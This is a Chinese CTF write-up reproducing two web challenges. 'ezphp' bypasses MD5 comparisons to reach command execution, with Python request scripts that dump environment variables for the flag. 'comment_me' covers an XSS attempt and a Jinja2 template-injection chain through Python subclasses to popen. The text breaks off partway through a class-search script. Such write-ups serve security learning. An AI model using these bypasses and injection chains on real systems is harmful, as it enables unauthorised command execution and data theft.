

<script src="https://cdn.mathjax.org/mathjax/latest/MathJax.js?config=TeX-AMS-MML_HTMLorMML" type="text/javascript"></script> <script type="text/x-mathjax-config"> MathJax.Hub.Config({ tex2jax: { skipTags: ['script', 'noscript', 'style', 'textarea', 'pre'], inlineMath: [['$','$'], ["\\(","\\)"]], displayMath: [["$$","$$"], ["\\[","\\]"]] } }); </script>

# 第二届CN-fnst::CTF web部分复现





赛事官网：https://ctf.cn-fnst.top/

## ezphp

题目源码如下：
```php
<?php
highlight_file(__FILE__);
error_reporting(0);
if (isset($_GET['usn']) && isset($_POST['pwd']) && isset($_GET['usn1']) && isset($_POST['pwd1']) ){
    $usn = $_GET['usn'];
    $usn1 = $_GET['usn1'];
    $pwd = $_POST['pwd'];
    $pwd1 = $_POST['pwd1'];
    if ($usn != $pwd && md5($usn) == md5($pwd)){
        if ($usn1 !== $pwd1 && md5($usn1) === md5($pwd1)){
            $sign = isset($_GET['sign']) && !empty($_GET['sign']) ? $_GET['sign'] : '';
            $forbidden_commands = ['cat', 'tac', 'nl', 'more', 'less', 'head', 'tail', 'read'];
            $sign_lower = strtolower($sign);
            foreach ($forbidden_commands as $forbidden) {
                if (strpos($sign_lower, $forbidden) !== false) {
                    die('lol');
                }
            }
            if (empty($sign)) {
                die('lol');
            }
            try {
                $output = shell_exec(escapeshellcmd($sign));
                echo "<pre>$output</pre>";
            } catch (ValueError $e) {
                echo "lol";
            }
        }
        else{
            echo "lol";
        }
    }
    else {
        echo "lol";
    }

}
else {
    echo 'lol';
}
```
审计php代码可以看到，存在md5的弱类型比较绕过与强类型比较绕过，分别利用0e漏洞与数组漏洞绕过即可。绕后可以设置一个sign的get参数，绕过forbidden_commands与escapeshellcmd可以执行命令。

笔者在这里首先是尝试用python的requests库跑的:
```python
import requests

session=requests.Session()
data={
    'pwd':'UTIPEZQ',
    'pwd1[]':2
}
url="http://ctf.mardle.cn:34593/?usn=s878926199a&usn1[]=1&sign=ls"
response=session.post(url=url,data=data)
print(response.text)
```
这段代码可以读到目录下存在三个文件夹：flag,flag.sh,index.php。直接访问flag的话可以得到flag的内容为：flag{flag}。flag.sh内容如下：
```sh
#!/bin/sh
sed -i "s/flag{flag}/$GZCTF_FLAG/" /var/www/html/flag
export GZCTF_FLAG=""
```
用于将环境变量`$GZCTF_FLAG`替换flag文件的内容，所以直接尝试使用`sort flag`等的命令是失败的，因为此时sh脚本未被执行，flag文件内容尚未被替换。我尝试直接使用`echo $GZCTF_FLAG`似乎并不能正确得到环境变量内容(~~~~我比较奇怪~~，不奇怪了，`$`被过滤掉了)，后面看到wp似乎可以通过`env`直接输出或者`printenv`拿到所有环境变量内容。所以脚本如下：
```py
import requests

session=requests.Session()
data={
    'pwd':'UTIPEZQ',
    'pwd1[]':2
}
url="http://ctf.mardle.cn:34593/?usn=s878926199a&usn1[]=1&sign=printenv"
response=session.post(url=url,data=data)
print(response.text)
```
回显得到下列内容：
```
PHP_EXTRA_CONFIGURE_ARGS=--enable-fpm --with-fpm-user=www-data --with-fpm-group=www-data --disable-cgi
USER=www-data
HOSTNAME=0d06d1718000
PHP_INI_DIR=/usr/local/etc/php
SHLVL=2
HOME=/home/www-data
PHP_LDFLAGS=-Wl,-O1 -Wl,--hash-style=both -pie
PHP_CFLAGS=-fstack-protector-strong -fpic -fpie -O2
PHP_MD5=
PHP_VERSION=5.6.40
GPG_KEYS=0BD78B5F97500D450838F95DFE857D9A90D90EC1 6E4F6AB321FDC07F2C332E3AC2BF0BC433CFC8B3
PHP_CPPFLAGS=-fstack-protector-strong -fpic -fpie -O2
PHP_ASC_URL=https://secure.php.net/get/php-5.6.40.tar.xz.asc/from/this/mirror
PHP_URL=https://secure.php.net/get/php-5.6.40.tar.xz/from/this/mirror
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
GZCTF_FLAG=flag{2b23462f-b47d-46a8-8016-c3a6e40284e4}
PHPIZE_DEPS=autoconf            dpkg-dev dpkg           file            g++             gcc             libc-dev                make            pkgconf                 re2c
PWD=/var/www/html
PHP_SHA256=1369a51eee3995d7fbd1c5342e5cc917760e276d561595b6052b21ace2656d1c
FLAG=not_flag
GZCTF_TEAM_ID=403
```
flag显然就在里面了`flag{2b23462f-b47d-46a8-8016-c3a6e40284e4}`。

另外，根据flag.sh的内容，如果我们可以执行这个文件，环境变量`$GZCTF_FLAG`可以输入到flag文件中，再通过`sort flag`的命令应该也可以拿到flag。这里可以用命令`./flag.sh`执行sh脚本，但是不知道为什么`sh flag.sh`命令不行。总而言之通过两次命令执行应该也能拿到flag。脚本如下：
```python
import requests

session=requests.Session()
data={
    'pwd':'UTIPEZQ',
    'pwd1[]':2
}
url1="http://ctf.mardle.cn:35156/?usn=s878926199a&usn1[]=1&sign=./flag.sh"
url2="http://ctf.mardle.cn:35156/?usn=s878926199a&usn1[]=1&sign=sort flag"
session.post(url=url1,data=data)
response=session.post(url=url2,data=data)
print(response.text)
```

PS：经提醒，`$`被escapeshellcmd过滤掉了，一下子没有反应过来。

## comment_me

打开后看到四句诗，可以修改内容，结合题目名称第一反应是xss，输入`<script>alert(1)</script>`确实出现回显，测试`document.cookie`时发现过滤了点号，但是尝试利用xss平台外带cookie并没有成功。

看了官方wp发现这里原来是个`ssti`漏洞(模板注入漏洞)，测试`{{7*7}}`回显49，测试成功。

笔者在此处认真学习了ssti及其利用，其出现往往是因为变量没有正确进行渲染，成因清楚了那么应该如何利用呢？往往通过字符串(或者数组元组等等)的子类找到其父类直到`<class 'object'>`。
1. `__class__`返回当前对象的类；(注意是两个下划线)
2. `__base__`返回当前对象的父类;
3. `__mro__`以元组形式返回当前对象继承的所有类；
4. `__subclasses__`列出当前对象的所有子类；
5. `__init__.__globals__`调用当前类下的方法；(`__init__`用于初始化类，`__globals__`可以以字典形式返回可以调用的方法)。
对于本题而言官方给出的wp是调用`<class 'os._wrap_close'>`的`popen`方法。

如何确定`<class 'os._wrap_close'>`的位置呢?写一个脚本遍历就可以了：
```python
# 用来寻找<class 'os._wrap_close'>，其中可以调用popen来执行操作。从而可以执行一些操作,当然，你可以选择寻找别的。

classes = """
<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'odict_iterator'>, <class 'set'>, <class 'str'>, <class 'slice'>, <class 'staticmethod'>, <class 'complex'>, <class 'float'>, <class 'frozenset'>, <class 'property'>, <class 'managedbuffer'>, <class 'memoryview'>, <class 'tuple'>, <class 'enumerate'>, <class 'reversed'>, <class 'stderrprinter'>, <class 'code'>, <class 'frame'>, <class 'builtin_function_or_method'>, <class 'method'>, <class 'function'>, <class 'mappingproxy'>, <class 'generator'>, <class 'getset_descriptor'>, <class 'wrapper_descriptor'>, <class 'method-wrapper'>, <class 'ellipsis'>, <class 'member_descriptor'>, <class 'types.SimpleNamespace'>, <class 'PyCapsule'>, <class 'longrange_iterator'>, <class 'cell'>, <class 'instancemethod'>, <class 'classmethod_descriptor'>, <class 'method_descriptor'>, <class 'callable_iterator'>, <class 'iterator'>, <class 'coroutine'>, <class 'coroutine_wrapper'>, <class 'EncodingMap'>, <class 'fieldnameiterator'>, <class 'formatteriterator'>, <class 'filter'>, <class 'map'>, <class 'zip'>, <class 'moduledef'>, <class 'module'>, <class 'BaseException'>, <class '_frozen_importlib._ModuleLock'>, <class '_frozen_importlib._DummyModuleLock'>, <class '_frozen_importlib._ModuleLockManager'>, <class '_frozen_importlib._installed_safely'>, <class '_frozen_importlib.ModuleSpec'>, <class '_frozen_importlib.BuiltinImporter'>, <class 'classmethod'>, <class '_frozen_importlib.FrozenImporter'>, <class '_frozen_importlib._ImportLockContext'>, <class '_thread._localdummy'>, <class '_thread._local'>, <class '_thread.lock'>, <class '_thread.RLock'>, <class '_frozen_importlib_external.WindowsRegistryFinder'>, <class '_frozen_importlib_external._LoaderBasics'>, <class '_frozen_importlib_external.FileLoader'>, <class '_frozen_importlib_external._NamespacePath'>, <class '_frozen_importlib_external._NamespaceLoader'>, <class '_frozen_importlib_external.PathFinder'>, <class '_frozen_importlib_external.FileFinder'>, <class '_io._IOBase'>, <class '_io._BytesIOBuffer'>, <class '_io.IncrementalNewlineDecoder'>, <class 'posix.ScandirIterator'>, <class 'posix.DirEntry'>, <class 'zipimport.zipimporter'>, <class 'codecs.Codec'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>, <class 'codecs.StreamReaderWriter'>, <class 'codecs.StreamRecoder'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class 'abc.ABC'>, <class 'collections.abc.Hashable'>, <class 'collections.abc.Awaitable'>, <class 'collections.abc.AsyncIterable'>, <class 'async_generator'>, <class 'collections.abc.Iterable'>, <class 'bytes_iterator'>, <class 'bytearray_iterator'>, <class 'dict_keyiterator'>, <class 'dict_valueiterator'>, <class 'dict_itemiterator'>, <class 'list_iterator'>, <class 'list_reverseiterator'>, <class 'range_iterator'>, <class 'set_iterator'>, <class 'str_iterator'>, <class 'tuple_iterator'>, <class 'collections.abc.Sized'>, <class 'collections.abc.Container'>, <class 'collections.abc.Callable'>, <class 'os._wrap_close'>, <class '_sitebuiltins.Quitter'>, <class '_sitebuiltins._Printer'>, <class '_sitebuiltins._Helper'>, <class 'types.DynamicClassAttribute'>, <class 'functools.partial'>, <class 'functools._lru_cache_wrapper'>, <class 'operator.itemgetter'>, <class 'operator.attrgetter'>, <class 'operator.methodcaller'>, <class 'itertools.accumulate'>, <class 'itertools.combinations'>, <class 'itertools.combinations_with_replacement'>, <class 'itertools.cycle'>, <class 'itertools.dropwhile'>, <class 'itertools.takewhile'>, <class 'itertools.islice'>, <class 'itertools.starmap'>, <class 'itertools.chain'>, <class 'itertools.compress'>, <class 'itertools.filterfalse'>, <class 'itertools.count'>, <class 'itertools.zip_longest'>, <class 'itertools.permutations'>, <class 'itertools.product'>, <class 'itertools.repeat'>, <class 'itertools.groupby'>, <class 'itertools._grouper'>, <class 'itertools._tee'>, <class 'itertools._tee_dataobject'>, <class 'reprlib.Repr'>, <class 'collections.deque'>, <class '_collections._deque_iterator'>, <class '_collections._deque_reverse_iterator'>, <class 'collections._Link'>, <class 'weakref.finalize._Info'>, <class 'weakref.finalize'>, <class 'functools.partialmethod'>, <class 'types._GeneratorWrapper'>, <class 'enum.auto'>, <enum 'Enum'>, <class '_sre.SRE_Pattern'>, <class '_sre.SRE_Match'>, <class '_sre.SRE_Scanner'>, <class 'sre_parse.Pattern'>, <class 'sre_parse.SubPattern'>, <class 'sre_parse.Tokenizer'>, <class 're.Scanner'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class 'importlib.abc.Finder'>, <class 'importlib.abc.Loader'>, <class 'contextlib.ContextDecorator'>, <class 'tokenize.Untokenizer'>, <class 'traceback.FrameSummary'>, <class 'traceback.TracebackException'>, <class '_ast.AST'>, <class 'ast.NodeVisitor'>, <class 'CArgObject'>, <class '_ctypes.CThunkObject'>, <class '_ctypes._CData'>, <class '_ctypes.CField'>, <class '_ctypes.DictRemover'>, <class 'Struct'>, <class 'ctypes.CDLL'>, <class 'ctypes.LibraryLoader'>, <class 'zlib.Compress'>, <class 'zlib.Decompress'>, <class 'threading._RLock'>, <class 'threading.Condition'>, <class 'threading.Semaphore'>, <class 'threading.Event'>, <class 'threading.Barrier'>, <class 'threading.Thread'>, <class '_bz2.BZ2Compressor'>, <class '_bz2.BZ2Decompressor'>, <class '_lzma.LZMACompressor'>, <class '_lzma.LZMADecompressor'>, <class 'select.poll'>, <class 'select.epoll'>, <class 'selectors.BaseSelector'>, <class 'subprocess.CompletedProcess'>, <class 'subprocess.Popen'>, <class '_hashlib.HASH'>, <class '_blake2.blake2b'>, <class '_blake2.blake2s'>, <class '_sha3.sha3_224'>, <class '_sha3.sha3_256'>, <class '_sha3.sha3_384'>, <class '_sha3.sha3_512'>, <class '_sha3.shake_128'>, <class '_sha3.shake_256'>, <class '_random.Random'>, <class 'tempfile._RandomNameSequence'>, <class 'tempfile._TemporaryFileCloser'>, <class 'tempfile._TemporaryFileWrapper'>, <class 'tempfile.SpooledTemporaryFile'>, <class 'tempfile.TemporaryDirectory'>, <class '_socket.socket'>, <class 'datetime.date'>, <class 'datetime.timedelta'>, <class 'datetime.time'>, <class 'datetime.tzinfo'>, <class 'urllib.parse._ResultMixinStr'>, <class 'urllib.parse._ResultMixinBytes'>, <class 'urllib.parse._NetlocResultMixinBase'>, <class 'calendar._localized_month'>, <class 'calendar._localized_day'>, <class 'calendar.Calendar'>, <class 'calendar.different_locale'>, <class 'email._parseaddr.AddrlistClass'>, <class 'string.Template'>, <class 'string.Formatter'>, <class 'email.charset.Charset'>, <class 'dis.Bytecode'>, <class 'inspect.BlockFinder'>, <class 'inspect._void'>, <class 'inspect._empty'>, <class 'inspect.Parameter'>, <class 'inspect.BoundArguments'>, <class 'inspect.Signature'>, <class 'logging.LogRecord'>, <class 'logging.PercentStyle'>, <class 'logging.Formatter'>, <class 'logging.BufferingFormatter'>, <class 'logging.Filter'>, <class 'logging.Filterer'>, <class 'logging.PlaceHolder'>, <class 'logging.Manager'>, <class 'logging.LoggerAdapter'>, <class 'textwrap.TextWrapper'>, <class '__future__._Feature'>, <class 'zipfile.ZipInfo'>, <class 'zipfile._ZipDecrypter'>, <class 'zipfile.LZMACompressor'>, <class 'zipfile.LZMADecompressor'>, <class 'zipfile._SharedFile'>, <class 'zipfile._Tellable'>, <class 'zipfile.ZipFile'>, <class 'pkgutil.ImpImporter'>, <class 'pkgutil.ImpLoader'>, <class 'pyexpat.xmlparser'>, <class 'plistlib.Data'>, <class 'plistlib._PlistParser'>, <class 'plistlib._DumbXMLWriter'>, <class 'plistlib._BinaryPlistParser'>, <class 'plistlib._BinaryPlistWriter'>, <class 'email.header.Header'>, <class 'email.header._ValueFormatter'>, <class 'email._policybase._PolicyBase'>, <class 'email.feedparser.BufferedSubFile'>, <class 'email.feedparser.FeedParser'>, <class 'email.parser.Parser'>, <class 'email.parser.BytesParser'>, <class 'pkg_resources.extern.VendorImporter'>, <class 'pkg_resources._vendor.six._LazyDescr'>, <class 'pkg_resources._vendor.six._SixMetaPathImporter'>, <class 'pkg_resources._vendor.six._LazyDescr'>, <class 'pkg_resources._vendor.six._SixMetaPathImporter'>, <class 'pkg_resources._vendor.appdirs.AppDirs'>, <class 'pkg_resources.extern.packaging._structures.Infinity'>, <class 'pkg_resources.extern.packaging._structures.NegativeInfinity'>, <class 'pkg_resources.extern.packaging.version._BaseVersion'>, <class 'pkg_resources.extern.packaging.specifiers.BaseSpecifier'>, <class 'pprint._safe_key'>, <class 'pprint.PrettyPrinter'>, <class 'pkg_resources._vendor.pyparsing._Constants'>, <class 'pkg_resources._vendor.pyparsing._ParseResultsWithOffset'>, <class 'pkg_resources._vendor.pyparsing.ParseResults'>, <class 'pkg_resources._vendor.pyparsing.ParserElement._UnboundedCache'>, <class 'pkg_resources._vendor.pyparsing.ParserElement._FifoCache'>, <class 'pkg_resources._vendor.pyparsing.ParserElement'>, <class 'pkg_resources._vendor.pyparsing._NullToken'>, <class 'pkg_resources._vendor.pyparsing.OnlyOnce'>, <class 'pkg_resources._vendor.pyparsing.pyparsing_common'>, <class 'pkg_resources.extern.packaging.markers.Node'>, <class 'pkg_resources.extern.packaging.markers.Marker'>, <class 'pkg_resources.extern.packaging.requirements.Requirement'>, <class 'pkg_resources.IMetadataProvider'>, <class 'pkg_resources.WorkingSet'>, <class 'pkg_resources.Environment'>, <class 'pkg_resources.ResourceManager'>, <class 'pkg_resources.NullProvider'>, <class 'pkg_resources.NoDists'>, <class 'pkg_resources.EntryPoint'>, <class 'pkg_resources.Distribution'>, <class 'gunicorn.pidfile.Pidfile'>, <class 'gunicorn.sock.BaseSocket'>, <class 'gunicorn.arbiter.Arbiter'>, <class 'gettext.NullTranslations'>, <class 'argparse._AttributeHolder'>, <class 'argparse.HelpFormatter._Section'>, <class 'argparse.HelpFormatter'>, <class 'argparse.FileType'>, <class 'argparse._ActionsContainer'>, <class 'shlex.shlex'>, <class 'ipaddress._IPAddressBase'>, <class 'ipaddress._BaseV4'>, <class 'ipaddress._IPv4Constants'>, <class 'ipaddress._BaseV6'>, <class 'ipaddress._IPv6Constants'>, <class '_ssl._SSLContext'>, <class '_ssl._SSLSocket'>, <class '_ssl.MemoryBIO'>, <class '_ssl.Session'>, <class 'ssl.SSLObject'>, <class 'gunicorn.reloader.InotifyReloader'>, <class 'gunicorn.config.Config'>, <class 'gunicorn.config.Setting'>, <class 'gunicorn.debug.Spew'>, <class 'gunicorn.app.base.BaseApplication'>, <class 'pickle._Framer'>, <class 'pickle._Unframer'>, <class 'pickle._Pickler'>, <class 'pickle._Unpickler'>, <class '_pickle.Unpickler'>, <class '_pickle.Pickler'>, <class '_pickle.Pdata'>, <class '_pickle.PicklerMemoProxy'>, <class '_pickle.UnpicklerMemoProxy'>, <class 'queue.Queue'>, <class 'logging.handlers.QueueListener'>, <class 'socketserver.BaseServer'>, <class 'socketserver.ForkingMixIn'>, <class 'socketserver.ThreadingMixIn'>, <class 'socketserver.BaseRequestHandler'>, <class 'logging.config.ConvertingMixin'>, <class 'logging.config.BaseConfigurator'>, <class 'gunicorn.glogging.Logger'>, <class 'gevent._config.Setting'>, <class 'gevent._config.Config'>, <class 'gevent._config.ImportableSetting'>, <class 'gevent._config.BoolSettingMixin'>, <class 'gevent._config.IntSettingMixin'>, <class 'gevent._config._PositiveValueMixin'>, <class 'gevent._config.AresSettingMixin'>, <class 'generator'>, <class 'gevent.libev.corecext._EVENTSType'>, <class 'gevent.libev.corecext.callback'>, <class 'gevent.libev.corecext.CallbackFIFO'>, <class 'gevent.libev.corecext.loop'>, <class 'gevent.libev.corecext.watcher'>, <class 'gevent.libev.corecext.__pyx_scope_struct__genexpr'>, <class 'gevent._util._NONE'>, <class 'gevent._util.Lazy'>, <class 'gevent._util.readproperty'>, <class 'gevent._util.Interface'>, <class 'cython_function_or_method'>, <class 'greenlet.greenlet'>, <class 'gevent.__waiter.Waiter'>, <class 'gevent.timeout._FakeTimer'>, <class 'gevent.__hub_primitives._WaitIterator'>, <class 'gevent._tblib.Code'>, <class 'gevent._tblib.Frame'>, <class 'gevent._tblib.Traceback'>, <class 'gevent._greenlet.SpawnedLink'>, <class 'gevent._greenlet._Frame'>, <class 'gevent._greenlet._dummy_event'>, <class 'gevent._greenlet.__pyx_scope_struct____Pyx_CFunc_object____list____object____object___to_py'>, <class 'gevent._greenlet.__pyx_scope_struct____Pyx_CFunc_object____list____object___to_py'>, <class 'gevent.__ident.IdentRegistry'>, <class 'gevent.hub.signal'>, <class 'gevent.hub.linkproxy'>, <class 'gevent.signal'>, <class 'gevent.signal'>, <class 'gevent._queue.Queue'>, <class 'gevent._queue.Channel'>, <class 'gevent.__abstract_linkable.AbstractLinkable'>, <class 'gevent.lock.DummySemaphore'>, <class 'gevent.lock.RLock'>, <class 'gevent.__imap.Failure'>, <class 'gevent.pool.GroupMappingMixin'>, <class 'gevent.pool.pass_value'>, <class 'gevent.baseserver.BaseServer'>, <class 'gevent._socket3.socket'>, <class 'gevent.pywsgi.Input'>, <class 'email.message.Message'>, <class 'http.client.HTTPConnection'>, <class 'gevent.pywsgi.WSGIHandler'>, <class 'gevent.pywsgi._NoopLog'>, <class 'gevent.pywsgi.LoggingLogAdapter'>, <class 'gunicorn.http.unreader.Unreader'>, <class 'gunicorn.http.body.ChunkedReader'>, <class 'gunicorn.http.body.LengthReader'>, <class 'gunicorn.http.body.EOFReader'>, <class 'gunicorn.http.body.Body'>, <class 'gunicorn.http.message.Message'>, <class 'gunicorn.http.parser.Parser'>, <class 'gunicorn.http.wsgi.FileWrapper'>, <class 'gunicorn.http.wsgi.Response'>, <class 'gunicorn.workers.workertmp.WorkerTmp'>, <class 'gunicorn.workers.base.Worker'>, <class 'gunicorn.workers.ggevent.GeventResponse'>, <class 'gevent.events.PeriodicMonitorThreadStartedEvent'>, <class 'gevent.events.EventLoopBlocked'>, <class 'gevent.events._AbstractMemoryEvent'>, <class 'gevent.events.GeventPatchEvent'>, <class 'gevent.events._PatchAllMixin'>, <class 'gevent._local._greenlet_deleted'>, <class 'gevent._local._local_deleted'>, <class 'gevent._local._localimpl'>, <class 'gevent._local._localimpl_dict_entry'>, <class 'gevent._local.local'>, <class '_threading_local._localimpl'>, <class '_threading_local.local'>, <class 'gevent.select.SelectResult'>, <class 'gevent.select.PollResult'>, <class 'gevent.select.poll'>, <class 'gevent.subprocess.Popen'>, <class 'gevent.subprocess.CompletedProcess'>, typing._TypingBase, typing.Generic, <class 'typing._TypingEmpty'>, <class 'typing._TypingEllipsis'>, typing.Protocol, typing.Generic[+T_co], typing.Generic[+T_co, -T_contra, +V_co], typing.Protocol[+T_co], typing.Generic[~KT, +VT_co], typing.Generic[+T_co, -T_contra], typing.Generic[+CT_co], <class 'typing.NamedTuple'>, typing.Generic[~AnyStr], <class 'typing.io'>, <class 'typing.re'>, <class 'jinja2.bccache.Bucket'>, <class 'jinja2.bccache.BytecodeCache'>, <class 'markupsafe._MarkupEscapeHelper'>, <class '_json.Scanner'>, <class '_json.Encoder'>, <class 'json.decoder.JSONDecoder'>, <class 'json.encoder.JSONEncoder'>, <class 'jinja2.utils.MissingType'>, <class 'jinja2.utils.LRUCache'>, <class 'jinja2.utils.Cycler'>, <class 'jinja2.utils.Joiner'>, <class 'jinja2.utils.Namespace'>, <class 'jinja2.nodes.EvalContext'>, <class 'jinja2.nodes.Node'>, <class 'jinja2.visitor.NodeVisitor'>, <class 'jinja2.idtracking.Symbols'>, <class 'jinja2.compiler.MacroRef'>, <class 'jinja2.compiler.Frame'>, <class 'jinja2.runtime.TemplateReference'>, <class 'jinja2.runtime.Context'>, <class 'jinja2.runtime.BlockReference'>, <class 'jinja2.runtime.LoopContext'>, <class 'jinja2.runtime.Macro'>, <class 'jinja2.runtime.Undefined'>, <class 'numbers.Number'>, <class 'jinja2.lexer.Failure'>, <class 'jinja2.lexer.TokenStreamIterator'>, <class 'jinja2.lexer.TokenStream'>, <class 'jinja2.lexer.Lexer'>, <class 'jinja2.parser.Parser'>, <class 'jinja2.environment.Environment'>, <class 'jinja2.environment.Template'>, <class 'jinja2.environment.TemplateModule'>, <class 'jinja2.environment.TemplateExpression'>, <class 'jinja2.environment.TemplateStream'>, <class 'jinja2.loaders.BaseLoader'>, <class 'mimetypes.MimeTypes'>, <class 'werkzeug._internal._Missing'>, typing.Generic[~_TAccessorValue], <class 'werkzeug.exceptions.Aborter'>, <class 'werkzeug.urls.Href'>, <class 'urllib.request.Request'>, <class 'urllib.request.OpenerDirector'>, <class 'urllib.request.BaseHandler'>, <class 'urllib.request.HTTPPasswordMgr'>, <class 'urllib.request.AbstractBasicAuthHandler'>, <class 'urllib.request.AbstractDigestAuthHandler'>, <class 'urllib.request.URLopener'>, <class 'urllib.request.ftpwrapper'>, <class 'http.cookiejar.Cookie'>, <class 'http.cookiejar.CookiePolicy'>, <class 'http.cookiejar.Absent'>, <class 'http.cookiejar.CookieJar'>, <class 'werkzeug.datastructures.ImmutableListMixin'>, <class 'werkzeug.datastructures.ImmutableDictMixin'>, <class 'werkzeug.datastructures._omd_bucket'>, <class 'werkzeug.datastructures.Headers'>, <class 'werkzeug.datastructures.ImmutableHeadersMixin'>, <class 'werkzeug.datastructures.IfRange'>, <class 'werkzeug.datastructures.Range'>, <class 'werkzeug.datastructures.ContentRange'>, <class 'werkzeug.datastructures.FileStorage'>, <class 'dataclasses._HAS_DEFAULT_FACTORY_CLASS'>, <class 'dataclasses._MISSING_TYPE'>, <class 'dataclasses._FIELD_BASE'>, <class 'dataclasses.InitVar'>, <class 'dataclasses.Field'>, <class 'dataclasses._DataclassParams'>, <class 'werkzeug.sansio.multipart.Event'>, <class 'werkzeug.sansio.multipart.MultipartDecoder'>, <class 'werkzeug.sansio.multipart.MultipartEncoder'>, <class 'hmac.HMAC'>, <class 'werkzeug.wsgi.ClosingIterator'>, <class 'werkzeug.wsgi.FileWrapper'>, <class 'werkzeug.wsgi._RangeWrapper'>, typing.Generic[~_T], <class 'werkzeug.utils.HTMLBuilder'>, <class 'werkzeug.wrappers.accept.AcceptMixin'>, <class 'werkzeug.wrappers.auth.AuthorizationMixin'>, <class 'werkzeug.wrappers.auth.WWWAuthenticateMixin'>, <class 'werkzeug.formparser.FormDataParser'>, <class 'werkzeug.formparser.MultiPartParser'>, <class 'werkzeug.user_agent.UserAgent'>, <class 'werkzeug.useragents._UserAgentParser'>, <class 'werkzeug.sansio.request.Request'>, <class 'werkzeug.wrappers.request.StreamOnlyMixin'>, <class 'werkzeug.sansio.response.Response'>, <class 'werkzeug.wrappers.response.ResponseStream'>, <class 'werkzeug.wrappers.response.ResponseStreamMixin'>, <class 'werkzeug.wrappers.common_descriptors.CommonRequestDescriptorsMixin'>, <class 'werkzeug.wrappers.common_descriptors.CommonResponseDescriptorsMixin'>, <class 'werkzeug.wrappers.etag.ETagRequestMixin'>, <class 'werkzeug.wrappers.etag.ETagResponseMixin'>, <class 'werkzeug.wrappers.user_agent.UserAgentMixin'>, <class 'werkzeug.test._TestCookieHeaders'>, <class 'werkzeug.test._TestCookieResponse'>, <class 'werkzeug.test.EnvironBuilder'>, <class 'werkzeug.test.Client'>, <class 'decimal.Decimal'>, <class 'decimal.Context'>, <class 'decimal.SignalDictMixin'>, <class 'decimal.ContextManager'>, <class 'uuid.UUID'>, <class 'gevent._fileobjectcommon.FileObjectBase'>, <class 'werkzeug.local.ContextVar'>, <class 'werkzeug.local.Local'>, <class 'werkzeug.local.LocalStack'>, <class 'werkzeug.local.LocalManager'>, <class 'werkzeug.local._ProxyLookup'>, <class 'werkzeug.local.LocalProxy'>, <class 'difflib.SequenceMatcher'>, <class 'difflib.Differ'>, <class 'difflib.HtmlDiff'>, <class 'werkzeug.routing.RuleFactory'>, <class 'werkzeug.routing.RuleTemplate'>, <class 'werkzeug.routing.BaseConverter'>, <class 'werkzeug.routing.Map'>, <class 'werkzeug.routing.MapAdapter'>, <class 'click._compat._FixupStream'>, <class 'click._compat._AtomicFile'>, <class 'click.utils.LazyFile'>, <class 'click.utils.KeepOpenFile'>, <class 'click.utils.PacifyFlushWrapper'>, <class 'click.types.ParamType'>, <class 'click.parser.Option'>, <class 'click.parser.Argument'>, <class 'click.parser.ParsingState'>, <class 'click.parser.OptionParser'>, <class 'click.formatting.HelpFormatter'>, <class 'click.core.Context'>, <class 'click.core.BaseCommand'>, <class 'click.core.Parameter'>, <class 'flask.signals.Namespace'>, <class 'flask.signals._FakeSignal'>, <class 'flask.cli.DispatchingApp'>, <class 'flask.cli.ScriptInfo'>, <class 'flask.config.ConfigAttribute'>, <class 'flask.ctx._AppCtxGlobals'>, <class 'flask.ctx.AppContext'>, <class 'flask.ctx.RequestContext'>, <class 'flask.scaffold.Scaffold'>, <class 'itsdangerous._json._CompactJSON'>, <class 'itsdangerous.signer.SigningAlgorithm'>, <class 'itsdangerous.signer.Signer'>, <class 'itsdangerous.serializer.Serializer'>, <class 'flask.json.tag.JSONTag'>, <class 'flask.json.tag.TaggedJSONSerializer'>, <class 'flask.sessions.SessionInterface'>, <class 'flask.blueprints.BlueprintSetupState'>
"""
target="<class 'os._wrap_close'>"
def find_class(subclasses,target):
    class_list=subclasses.split(', ')
